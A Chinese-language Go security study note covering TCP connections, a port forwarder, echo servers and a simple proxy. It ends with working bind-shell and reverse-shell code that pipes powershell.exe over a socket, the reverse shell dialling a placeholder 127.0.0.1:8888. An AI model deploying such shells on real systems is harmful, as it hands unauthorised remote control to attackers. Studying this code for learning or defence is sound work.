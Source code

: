 ```yaml
---
created: '21/06/06 08:51'
title: golang-sec-note
tags:
  - golang
---
```


# 第二章-网络连接

### 建立TCP连接与代理

- 简单地连接到某个ip和端口

   ```Go
   package main
   
   import (
     "fmt"
     "net"
   )
   
   func main() {
     conn, err := net.Dial("tcp", "scanme.nmap.org:80")
     defer conn.Close()
     if err == nil {
       fmt.Println("Connect success")
     }
   }
   
   ```


- 简单地实现端口转发

   ```Go
   package main
   
   import (
     "io"
     "log"
     "net"
     "strings"
   )
   
   func proxy(conn net.Conn) {
     dst, err := net.Dial("tcp", "localhost:80")
     defer func() {
       dst.Close()
       conn.Close()
     }()
     if err != nil {
       log.Fatalf("Error: %v\n", err)
     }
     go func() {
       if _, err := io.Copy(dst, conn); err != nil && !strings.Contains(err.Error(), "closed") {
         log.Printf("2 Error: %v\n", err)
       }
     }()
     if _, err := io.Copy(conn, dst); err != nil && !strings.Contains(err.Error(), "closed") {
       log.Printf("1 Error: %v\n", err)
     }
   }
   
   func main() {
     listener, err := net.Listen("tcp", ":8888")
     if err != nil {
       log.Fatalf("Error: %v\n", err)
     }
     for {
       conn, err := listener.Accept()
       if err != nil {
         log.Fatalf("Error: %v\n", err)
       }
       go proxy(conn)
     }
   }
   ```


### echo服务器的三种实现方式

1. 最底层的实现方式,使用`net.Conn.Read`和`net.Conn.Write`底层函数

2. 使用golang自带的bufio包,使用`bufio.NewReader.ReadString`和`bufio.NewWriter.WriteString`实现,自带缓存,在写入的时候可能需要flush才能立即显示

3. 使用golang自带的io包,使用`io.Copy(dst *io.Writer, src *io.Reader)`实现,可以自己实现Reader和Writer,只需要实现` Read(b []byte) (int, error)`或`Write(b []byte) (int, error)`即可

### 简单代理的实现方式

**核心**

- 使用net.Listen监听端口建立服务器

- 当监听到新的连接时交给一个新的协程处理

- 协程中使用net.Dial连接到需要代理的目标,并使用io.Copy将请求源的请求发送至目标(起一个新的协程),将目标的响应发送至请求源

### Golang正向shell的实现方式

**核心**

- 使用net.Listen监听端口建立服务器

- 当监听到新的连接时交给一个新的协程处理

- 协程大致流程


 ```Go
 import (
   "io"
   "log"
   "net"
   "os/exec"
 )
 
 func handle(conn net.Conn) {
   cmd := exec.Command("powershell.exe")
   rp, wp := io.Pipe()
   cmd.Stdin = conn     // read input from conn
   cmd.Stdout = wp      
   cmd.Stderr = wp      
   go io.Copy(conn, rp) // read output to conn
   cmd.Run()
   conn.Close()
 }
 
 func handle2(conn net.Conn) { // 后来发现可以直接这样
   cmd := exec.Command("powershell.exe")
   cmd.Stdin = conn
   cmd.Stdout = conn
   cmd.Stderr = conn
   cmd.Run()
   conn.Close()
 }
 
 func main() {
   listener, err := net.Listen("tcp", ":20080")
   if err != nil {
     log.Fatalln("Unable to bind to port")
   }
   log.Println("Listening on 0.0.0.0:20080")
   for {
     conn, err := listener.Accept()
     if err != nil {
       log.Fatalln("Unable to accept connetcion")
     }
     go handle(conn)
   }
 }
 ```


### Golang反向shell实现方式

**核心**

和正向shell一样

 ```Go
 import import (
   "io"
   "net"
   "os/exec"
 )
 
 func handle2(conn net.Conn) { // 后来发现可以直接这样
   cmd := exec.Command("powershell.exe")
   cmd.Stdin = conn
   cmd.Stdout = conn
   cmd.Stderr = conn
   cmd.Run()
   conn.Close()
 }
 
 func main() {
   reConn, _ := net.Dial("tcp", "127.0.0.1:8888")
     handle2(reConn);
 }
 ```
